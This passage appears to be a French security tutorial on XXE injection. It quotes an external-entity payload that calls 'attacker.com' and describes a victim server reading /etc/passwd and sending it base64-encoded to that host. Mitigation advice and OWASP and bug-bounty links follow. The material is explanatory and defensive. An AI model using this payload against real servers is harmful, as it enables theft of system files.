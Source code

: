 L'attaque fonctionne en trois étapes :

- La première étape consiste donc à envoyer une requête **POST** au serveur victime, en spécifiant une en-tête XML ``<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">``
Cette en-tête XML indique que l'on fait appel à une DTD externe.

-  Le serveur reçoit la requête **POST** et parse le XML. En traitant le XML, le serveur detecte qu'un DTD externe est utilisé et va donc lire le contenu du fichier
dtd ``xxe.dtd`` qui est hébergé sur le serveur de l'attaquant

- La DTD externe ``xxe.dtd`` demande alors au serveur "victime" d'aller lire le contenu du fichier ``/etc/passwd`` puis d'envoyer le résultat encodé en base64 vers
le serveur ``attacker.com``

### Recommandation(s)

Pour prévenir des attaques de type XXE, plusieurs recommandations, notamment :

- Utiliser des formats de données moins complexes tels que JSON et éviter la sérialisation des données sensibles.
- Autant que possible, Désactiver le traitement des entités externes XML et des DTD dans tous les moteur XML de l’application
- Corriger ou mettre à niveau tous les moteurs et bibliothèques XML utilisés par l'application ou sur le système d'exploitation sous-jacent. Utiliser des vérificateurs
de dépendance. Mettre à jour SOAP vers SOAP 1.2 ou supérieur.
- Implémenter une validation, un filtrage ou un nettoyage des entrées côté serveur positives ("liste blanche") pour empêcher les données hostiles dans les documents
XML, les en-têtes ou les nœuds.
- Vérifier que la fonctionnalité de téléchargement de fichier XML ou XSL valide le XML entrant à l'aide de la validation XSD ou similaire.

### Ressources(s)

- https://pentestmag.com/exploiting-the-entity-xme-xml-external-entity-injection/

# Ressources externes

- https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://github.com/ngalongc/bug-bounty-reference